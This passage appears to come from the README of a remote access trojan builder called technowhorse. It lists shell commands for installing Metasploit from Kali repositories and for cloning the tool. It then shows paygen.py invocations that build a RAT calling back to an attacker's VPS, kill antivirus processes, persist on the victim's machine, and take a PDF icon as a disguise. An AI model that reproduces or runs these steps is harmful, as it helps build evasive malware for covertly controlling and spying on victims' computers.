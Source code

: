 ```

# 6. Add Kali Public Keys
$ wget 'https://archive.kali.org/archive-key.asc' && sudo apt-key add archive-key.asc

# 7. Update VPS
$ sudo apt update

# 8. Set Kali Priority
$ sudo sh -c "echo 'Package: *'>/etc/apt/preferences.d/kali.pref; echo 'Pin: release a=kali-rolling'>>/etc/apt/preferences.d/kali.pref; echo 'Pin-Priority: 50'>>/etc/apt/preferences.d/kali.pref"

# 9. Update VPS
$ sudo apt update

# 10. Install Metasploit Framework in VPS
$ sudo apt install -t kali-rolling metasploit-framework

# NOTE: Above Steps needs to be performed only for once 

# 11. Install pip3
$ sudo apt install python3-pip

# 12. Clone this repository
$ git clone https://github.com/PushpenderIndia/technowhorse.git

# 13. Go into the repository
$ cd technowhorse

# 14. Installing dependencies
$ bash installer_linux.sh

# 15. If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ 16. chmod +x paygen.py
$ python3 paygen.py --help

# Making Payload/RAT (If you want to Compile RAT for Windows, then Build RAT on Windows Machine & Use VPS for Controlling RAT Remotely)
$ python3 paygen.py --ip VPS_Public_IP_Address --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

# Making Payload/RAT with Custom AVKiller [By Default, Tons of Know AntiVirus is added in Kill_Targets]
$ python3 paygen.py --ip VPS_Public_IP_Address --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path --kill_av AntiVirus.exe

# Making Payload/RAT with Custom Time to become persistence
$ python3 paygen.py --ip VPS_Public_IP_Address --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path --persistence 10 

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```
